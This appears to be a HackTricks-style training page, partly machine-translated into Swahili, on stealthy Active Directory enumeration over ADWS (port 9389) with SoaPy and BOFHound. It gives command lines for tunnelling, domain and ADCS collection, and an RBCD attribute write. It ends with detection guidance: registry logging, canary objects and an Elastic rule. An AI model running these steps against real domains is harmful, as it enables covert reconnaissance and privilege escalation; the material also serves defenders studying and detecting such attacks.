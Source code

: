 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection

{{#include ../../banners/hacktricks-training.md}}

## What is ADWS?

Active Directory Web Services (ADWS) **imewezeshwa kwa default kwenye kila Domain Controller tangu Windows Server 2008 R2** na inasikiliza kwenye TCP **9389**.  Licha ya jina, **hakuna HTTP inayohusika**.  Badala yake, huduma hii inaonyesha data ya mtindo wa LDAP kupitia seti ya protokali za umiliki za .NET:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

Kwa sababu trafiki imefungwa ndani ya hizi binary SOAP frames na inasafiri kupitia bandari isiyo ya kawaida, **kuhesabu kupitia ADWS kuna uwezekano mdogo wa kukaguliwa, kuchujwa au kusainiwa kuliko trafiki ya kawaida ya LDAP/389 & 636**.  Kwa waendeshaji hii inamaanisha:

* Utafiti wa siri – Timu za buluu mara nyingi hujikita kwenye maswali ya LDAP.
* Uhuru wa kukusanya kutoka **kwa mwenyeji asiye wa Windows (Linux, macOS)** kwa kutoboa 9389/TCP kupitia SOCKS proxy.
* Data sawa ambayo ungeweza kupata kupitia LDAP (watumiaji, vikundi, ACLs, muundo, nk.) na uwezo wa kufanya **kuandika** (mfano `msDs-AllowedToActOnBehalfOfOtherIdentity` kwa **RBCD**).

> NOTE: ADWS pia inatumika na zana nyingi za RSAT GUI/PowerShell, hivyo trafiki inaweza kuchanganyika na shughuli halali za admin.

## SoaPy – Native Python Client

[SoaPy](https://github.com/logangoins/soapy) ni **utekelezaji kamili wa protokali ya ADWS katika Python safi**.  Inaunda NBFX/NBFSE/NNS/NMF frames byte kwa byte, ikiruhusu ukusanyaji kutoka kwa mifumo kama Unix bila kugusa .NET runtime.

### Key Features

* Inasaidia **proxying kupitia SOCKS** (inayofaa kutoka kwa C2 implants).
* Filters za utafutaji zenye undani sawa na LDAP `-q '(objectClass=user)'`.
* Operesheni za hiari za **kuandika** ( `--set` / `--delete` ).
* **BOFHound output mode** kwa ajili ya uingizaji wa moja kwa moja katika BloodHound.
* `--parse` flag ili kuboresha alama za muda / `userAccountControl` wakati usomaji wa kibinadamu unahitajika.

### Installation (operator host)
```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```
## Stealth AD Collection Workflow

The following workflow shows how to enumerate **domain & ADCS objects** over ADWS, convert them to BloodHound JSON and hunt for certificate-based attack paths – all from Linux:

1. **Tunnel 9389/TCP** kutoka kwenye mtandao wa lengo hadi kwenye sanduku lako (kwa mfano kupitia Chisel, Meterpreter, SSH dynamic port-forward, n.k.). Export `export HTTPS_PROXY=socks5://127.0.0.1:1080` au tumia SoaPy’s `--proxyHost/--proxyPort`.

2. **Kusanya kitu cha msingi cha domain:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-q '(objectClass=domain)' \
| tee data/domain.log
```
3. **Kusanya vitu vinavyohusiana na ADCS kutoka kwa Configuration NC:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-dn 'CN=Configuration,DC=ludus,DC=domain' \
-q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
(objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
| tee data/adcs.log
```
4. **Badilisha kuwa BloodHound:**
```bash
bofhound -i data --zip   # produces BloodHound.zip
```
5. **Pakia ZIP** kwenye GUI ya BloodHound na uendeshe maswali ya cypher kama `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c` ili kufichua njia za kupandisha cheo za cheti (ESC1, ESC8, n.k.).

### Kuandika `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD)
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
--set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```
Patanisha hii na `s4u2proxy`/`Rubeus /getticket` kwa mnyororo kamili wa **Resource-Based Constrained Delegation**.

## Ugunduzi & Uimarishaji

### Kurekodi kwa Kina ADDS

wezesha funguo zifuatazo za rejista kwenye Watawala wa Kikoa ili kuonyesha utafutaji ghali / usio na ufanisi unaotoka kwenye ADWS (na LDAP):
```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```
Mifano itatokea chini ya **Directory-Service** na kichujio kamili cha LDAP, hata wakati ombi lilifika kupitia ADWS.

### SACL Canary Objects

1. Unda kitu cha dummy (mfano, mtumiaji aliyezuiliwa `CanaryUser`).
2. Ongeza **Audit** ACE kwa _Everyone_ principal, iliyokaguliwa kwenye **ReadProperty**.
3. Wakati mshambuliaji anapofanya `(servicePrincipalName=*)`, `(objectClass=user)` nk, DC inatoa **Event 4662** ambayo ina SID halisi ya mtumiaji – hata wakati ombi linapokuwa na proxy au linatoka ADWS.

Mfano wa sheria iliyojengwa awali ya Elastic:
```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```
## Muhtasari wa Zana

| Kusudi | Zana | Maelezo |
|--------|------|---------|
| ADWS enumeration | [SoaPy](https://github.com/logangoins/soapy) | Python, SOCKS, kusoma/kandika |
| BloodHound ingest | [BOFHound](https://github.com/bohops/BOFHound) | Hubadilisha SoaPy/ldapsearch logs |
| Uthibitisho wa cheti | [Certipy](https://github.com/ly4k/Certipy) | Inaweza kupitishwa kupitia SOCKS sawa |

## Marejeleo

* [SpecterOps – Hakikisha Kutumia SOAP(y) – Mwongozo wa Wafanya Kazi kwa Kukusanya AD kwa Siri kwa Kutumia ADWS](https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/)
* [SoaPy GitHub](https://github.com/logangoins/soapy)
* [BOFHound GitHub](https://github.com/bohops/BOFHound)
* [Microsoft – MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/)

{{#include ../../banners/hacktricks-training.md}}
